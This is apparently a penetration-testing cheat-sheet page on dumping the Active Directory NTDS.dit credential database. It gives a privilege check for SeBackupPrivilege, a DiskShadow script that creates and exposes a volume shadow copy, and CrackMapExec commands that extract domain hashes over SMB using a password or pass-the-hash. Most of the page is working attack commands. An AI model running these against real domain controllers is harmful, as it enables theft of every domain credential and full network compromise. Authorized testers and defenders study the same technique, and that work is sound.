 # Dump NTDS.dit

Source

{% embed url="https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit" %}

## Verify Backup Privileges

Running <mark style="color:green;">**`whoami /priv`**</mark> should show us if we have the right privileges to make a backup of the NTDS.dit and SYSTEM files. We are looking for <mark style="color:green;">**`SeBackupPrivilege`**</mark>

## DiskShadow

Create a file called vss.dsh with the code below in it. Then run `unix2dos vss.dsh` to convert a readable windows file.

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```



## CrackMapExec

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

```
#~ cme smb 192.168.1.100 -u UserNAme -H 'HASH HERE' --ntds vss
```

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>
